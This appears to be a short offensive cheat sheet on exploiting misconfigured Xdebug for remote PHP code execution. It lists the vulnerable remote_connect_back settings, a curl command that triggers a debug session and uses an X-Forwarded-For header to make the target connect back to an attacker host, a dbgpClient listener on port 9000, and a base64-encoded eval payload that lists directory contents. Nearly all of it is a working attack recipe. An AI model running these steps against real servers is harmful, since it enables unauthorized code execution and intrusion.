 #php

## Resource
https://medium.com/@knownsec404team/the-exploits-of-xdebug-in-phpstorm-2ca140e91dc

## Vulnerable Server Config

```
# Remote debug.
xdebug.remote_enable= true 
# Connect back to X-Forwarded-For.
xdebug.remote_connect_back= true
# Will be ignored. 
xdebug.remote_host= 127.0.0.1 
```


## Initiate Remote Debug Connection

```bash
curl http://[TARGET_HOST]/?XDEBUG_SESSION_START --header 'X-Forwarded-For: [ATTACKER_HOST]
```


## Command Line Debug Client (Attacker Host)
https://xdebug.org/download#dbgpClient

```bash
./dbgpClient -p 9000
```


## DBGp Commands

Execute php command (in base64). 
```php
eval -i 1 -- JHZhcj1zY2FuZGlyKCcuJyk7
```
- Payload = `$var=scandir('.');`
- Add `$var` before the php command to get the output of the command in CLI debugger.
- `-i 1`: Transaction ID (mandatory but number doesn't import).

![[remote_xdebug-example.png]]